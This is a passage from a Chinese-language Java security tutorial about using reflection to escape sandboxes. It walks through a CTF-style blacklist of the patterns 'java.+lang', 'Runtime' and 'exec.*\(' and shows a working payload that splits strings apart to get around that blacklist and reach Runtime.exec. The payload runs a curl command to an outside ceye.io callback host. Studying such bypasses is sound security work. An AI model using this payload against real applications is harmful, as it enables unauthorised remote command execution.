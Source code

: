 

## 0x03 反射在java安全中的应用

看p牛的java漫谈中说：`在安全研究中，我们使⽤反射的⼀⼤⽬的，就是绕过某些沙盒。`

p牛还给出了一个例子：

```java
上下⽂中如果只有Integer类型的数字，我们如何获取到可以执⾏命令的Runtime类呢？也许可以这样（伪代
码）： 1.getClass().forName("java.lang.Runtime")
```



我们来深入理解一下这句话，p牛举了一个ctf类题目。

其中

![3.1](https://raw.githubusercontent.com/h1iba1/h1iba1.github.io/refs/heads/master/_posts/JAVA安全/java反射机制/3.1.png)

其中存在黑名单过滤了：

```
- java.+lang
- Runtime
- exec.*\(
```

通过反射的方式来调用函数，验证payload:

```java
String.class.getClass().forName("java.l"+"ang.Ru"+"ntime").getMethod("exec",String.class).invoke(String.class.getClass().forName("java.l"+"ang.Ru"+"ntime").getMethod("getRu"+"ntime").invoke(String.class.getClass().forName("java.l"+"ang.Ru"+"ntime")),"curl http://fg5hme.ceye.io/1aa1k");
```

其中forName()传入类路径为字符串参数，此处就可以通过字符串拼接的方式来绕过，黑名单。



## 0x04 反射获取私有方法，私有构造函数

### 1.没有无参构造函数，没有类似单列模式的静态方法如何反射实例化该类
